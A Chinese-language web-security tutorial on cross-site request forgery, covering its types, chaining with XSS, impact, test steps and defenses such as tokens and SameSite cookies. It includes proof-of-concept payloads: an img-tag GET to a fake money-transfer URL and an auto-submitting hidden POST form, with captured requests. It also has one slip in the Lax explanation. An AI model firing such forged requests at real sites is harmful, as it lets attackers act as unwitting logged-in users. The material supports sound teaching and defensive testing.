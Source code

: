 ### 简介

跨站请求伪造Cross-Site Request Forgery(CSRF)，也被称为one click attack/session riding

### 原理

"借刀杀人"

CSRF通过构造get/post等请求，设法使已登录用户victim不知情的情况下，设法让victim携带自身Cookie发出"非其主观意愿的"HTTP请求

* CSRF局限性:如果只有单一的CSRF漏洞，攻击者无法得到该HTTP请求的内容(Cookie可用但无法查看)，也无法得到任何回显(HTTP响应等)
* CSRF扩展性:可联合其他漏洞(如XSS)进行攻击效果最大化

### CSRF类型与利用方式

* CSRF类型
  * GET - 利用方式 使victim点击构造的url 发出GET请求 `http://get.csrf.com/payto?name=hacker&moneynumb=100`
  * POST - 利用方式 尝试转变为GET (可尝试将post请求体改成get形式放至url参数中 如果可以正常响应 则可以使用GET请求进行csrf攻击)
* 漏洞联合 - 使用XSS绕过CSRF保护机制 无交互地利用CSRF漏洞
   * 1.利用自身域名的XSS漏洞绕过CSRF防御机制 - 有的anti-CSRF机制为后端判断CSRFtoken的值，使用JavaScript找到CSRFtoken参数值并构造出"合法的"GET/POST请求 全程不存在跨域问题
   * 2.利用自身/兄弟/父子域名的XSS漏洞绕过CSRF防御机制 - 有的anti-CSRF机制是后端通过判断Referer的值，如果Referer的值 是自身/兄弟/父子域名下的url 就是"合法"请求
   * 3.利用任意第三方域名的XSS漏洞 - 使victim访问攻击者可控的第三方网站`https://3.com` 该第三方站点上用javascript构造GET请求(通过img标签 使victim发出GET请求) POST请求(构造目标站的表单数据并自动提交 使victim发出POST请求)
   * html注入漏洞 (参考通过XSS间接利用CSRF)
* 漏洞联合 - CSRF漏洞 可使self-XSS漏洞"变废为宝"
  * 利用过程 - 假设b.com下存在self-XSS漏洞和CSRF漏洞，直接利用self-XSS漏洞则victim只有自己，但是借助CSRF漏洞则victim可以是别人，比如可在攻击者可控的第三方网站`https://3.com`下利用CSRF漏洞 构造跨域请求发送到b.com，其中请求内容为"能够触发self-XSS漏洞的payload"，所以victim访问第三方网站`https://3.com`时，会发出CSRF请求到b.com并且在域b.com下被XSS攻击

#### 利用任意第三方域名的XSS漏洞 发出GET请求

通过javascript 在 http://www.3.com/demo 中注入以下html代码:
```
<img src="http://get.csrf.com/payto?name=hacker&moneynumb=100">
```

victim访问http://www.3.com/demo 则发出GET请求


get.csrf.com收到GET请求:
请求中的Referer头说明了该get请求是从第三方url发起的 (如果后端验证Referer的值 则CSRF利用失败)
```
GET /payto?name=hacker&moneynumb=100 HTTP/1.1
Host: get.csrf.com
Connection: keep-alive
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://www.3.com/demo
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
```
       
#### 利用任意第三方域名的XSS漏洞 发出POST请求

通过javascript 在 https://3.com 中注入以下html代码:
```
  <script>history.pushState('', '', '/')</script>
    <form name="frm" action="https://post.csrf.com/search" method="POST">
      <input type="hidden" name="ip" value="1&#46;1&#46;1&#46;1" />
      <input type="hidden" name="offset" value="0" />
      <input type="hidden" name="limit" value="20" />
      <input type="submit" value="Submit request" />
    </form>
<script>document.frm.submit()</script>
```

victim访问https://3.com 则发出POST请求


post.csrf.com收到POST请求:并可看出HTTP请求从哪里发起
```
Origin: https://3.com
Referer: https://3.com/
```

```
POST /search HTTP/1.1
Host: post.csrf.com
Connection: keep-alive
Content-Length: 28
Cache-Control: max-age=0
Origin: https://3.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: https://3.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

ip=1.1.1.1&offset=0&limit=20
```

### 漏洞影响

* CSRF攻击场景 利用victim的身份进行操作
  * 修改管理员密码 - 使管理员点击构造的链接 即可修改其密码
  * 新建管理员账号 - 使管理员点击构造的链接 即可新增管理员
  * 社交站点蠕虫(XSS结合CSRF) - 如果"向好友发送消息"的HTTP请求中没有设置CSRF-token请求头 则可结合XSS可构造出XSS+CSRF蠕虫 影响极大
  * 拒绝服务(XSS结合CSRF) - 如果XSS能打到管理员后台 且管理员注销动作无CSRF防御机制 则可构造payload使管理员一登录就注销

### 测试

* 相同请求重放 - 即可判断token是否为每次动态生成 仅一次性有效 用后失效
* 完全删除CSRFtoken值令其为空 - 即可判断后端是否验证token是否有效
* 修改CSRFtoken值中一个字符 - 即可判断后端验证机制是否严谨
* HTTP方法由POST转换为GET - 即可判断后端验证机制是否严谨

### SDL - 防御与修复方案

* web框架 - 启动框架中成熟的CSRF防御功能
  * 自定义HTTP请求头(Custom Request Headers)
    * 如使用`X-CSRF-token:xxxx`标明CSRF_TOKEN的值(即使CSRF利用成功发出了携带Cookie的HTTP请求 但后端判断`X-CSRF-token`不存在则拒绝请求)
  * One-time Token
    * 如每次提交表单都包含字段`Token=xxxx`且每次值不同 后端可校验是否正确
* `Set-Cookie`使用`SameSite`属性
  * 后端Response Header`Set-Cookie`中设置`SameSite`属性(由Google引入浏览器 用于缓解CSRF攻击)，`SameSite`属性有3种值:
    * `Strict`严格
      * 例如 域b.com的Response Header有`Set-Cookie: admin_cookie_strict=xxx; SameSite=Strict`，浏览器中会保存这一Cookie字段`admin_cookie_strict=xxx`，但由于`SameSite=Strict`为**严格**，所以浏览器对(非b.com域下发起的)访问b.com的**任何跨域请求**都不允许携带这一Cookie字段`admin_cookie=xxx`，所以可以防御CSRF攻击。比如从域a.com下构造并发出跨域请求访问b.com(尝试CSRF)，绝对不会携带关键的cookie，从而b.com后端鉴权失败，CSRF攻击失败
    * `Lax`宽松 - 没有`SameSite`属性的cookie被浏览器默认为`SameSite=Lax`
      * 例如 域b.com的Response Header有`Set-Cookie: admin_cookie_lax=xxx; SameSite=Lax`，浏览器中会保存这一Cookie字段`admin_cookie_lax=xxx`，但由于`SameSite=Strict`为**宽松**，所以浏览器对(非b.com域下发起的)访问b.com的**多种跨域请求**都不允许携带这一Cookie字段，只有以下3种方式(任何一种)，才能够携带b.com的cookie`admin_cookie_lax=xxx`
        * 非同域下的a标签 `<a href="http://b.com"></a>`
        * 非同域下的GET表单 `<form method="GET" action="http://b.com/formdemo">`
        * 非同域下的link标签 `<link rel="prerender" href="http://b.com"/>`
    * `None`无
      * `SameSite=None`必须同时指定`Secure`，例如`Set-Cookie: session_none=abc123; SameSite=None; Secure`
* 二次验证 - 安全但影响用户体验(适用于仅对敏感功能处进行防御)
  * CAPTCHA 增加验证码机制
  * 再次输入密码
  * 手机验证码
* (不推荐)通过`Referer/Origin`校验来源域名
  * 缺陷1.只能防御从"不被信任"的域发起的伪造的http请求（如果 **父、子、兄弟域名** 或 **CORS中被信任的域名** 有XSS漏洞 配合构造一个伪造请求 此时referer和Origin的值都是被信任的域 此时“校验来源域名”无法防御）
  * 缺陷2.正常业务如果有302跳转 不携带Origin

参考OWASP [Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.md](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.md)
